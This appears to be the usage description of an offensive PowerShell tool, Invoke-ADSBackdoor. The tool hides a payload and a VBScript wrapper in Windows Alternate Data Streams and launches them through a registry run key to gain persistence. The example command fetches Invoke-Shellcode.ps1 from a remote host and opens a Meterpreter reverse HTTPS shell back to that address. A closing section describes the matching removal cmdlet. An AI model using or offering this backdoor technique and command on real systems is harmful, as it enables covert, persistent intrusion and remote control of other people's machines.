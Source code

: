 This script will obtain persistence on a Windows 7+ machine under both Standard and Administrative accounts by 
using two Alternate Data Streams. The first Alternate Data stream stores the payloadand the second Alternate Data Stream 
stores some VBScript that acts as a wrapper in order to hide the DOS prompt when invoking the data stream containing the 
payload. When passing the arguments, you have to include the function and any parameters required by your payload. 
The arguments must also be in quotation marks.

Example:
PS C:\Users\test\Desktop> Invoke-ADSBackdoor -URL http://192.168.1.138/Invoke-Shellcode.ps1 -Arguments "Invoke-Shellcode
 -Lhost 192.168.1.138 -LPort 2222 -Payload windows/meterpreter/reverse_https -Force"
This will use the function Invoke-Shellcode in Invoke-Shellcode.ps1 to shovel meterpreter back to 192.168.1.138 on port 
2222 over HTTPS. 


The Remove-ADSBackdoor cmdlet will parse the registry run key, extract both ADS locations, remove them
using Remove-ADS, and will then remove the registry run key.

Example:
PS C:\Users\test\Desktop> Remove-ADSBackdoor

